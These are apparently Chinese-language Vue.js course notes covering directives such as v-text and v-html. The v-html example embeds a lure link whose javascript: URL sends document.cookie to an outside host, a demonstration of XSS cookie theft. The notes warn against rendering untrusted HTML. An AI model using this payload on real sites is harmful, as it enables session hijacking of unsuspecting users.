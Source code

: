 ```html
```

我们学过的指令：

- `v-bind` : 单向绑定解析表达式, 可简写为 ==:xxx==
- `v-model` : 双向数据绑定
- `v-for` : 遍历数组/对象/字符串
- `v-on` : 绑定事件监听, 可简写为 ==@==
- `v-if` : 条件渲染（动态控制节点是否存存在）
- `v-else` : 条件渲染（动态控制节点是否存存在）
- `v-show` : 条件渲染 (动态控制节点是否展示)

**v-text 指令：**

1. 作用：向其所在的节点中渲染文本内容。
2. 与插值语法的区别：==`v-text` 会替换掉节点中的内容，`{{xx}}` 则不会==。

### 1.15.2 v-html\_指令

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<div>你好，{{name}}</div>
		<div v-html="str"></div>
		<div v-html="str2"></div>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

	new Vue({
		el: "#root",
		data: {
			name: "尚硅谷",
			str: "<h3>你好啊！</h3>",
			str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
		},
	});
</script>
```

`v-html` 指令：

1. 作用：向指定节点中渲染包含 html 结构的内容。
2. 与插值语法的区别：
   1. `v-html` 会替换掉节点中所有的内容，`{{xx}}` 则不会。
   2. `v-html` 可以识别 html 结构。
3. 严重注意：==`v-html` 有安全性问题！！！！==
   1. ==在网站上动态渲染任意 HTML 是非常危险的，容易导致 XSS 攻击。==
   2. ==一定要在可信的内容上使用 `v-html`，永不要用在用户提交的内容上！==
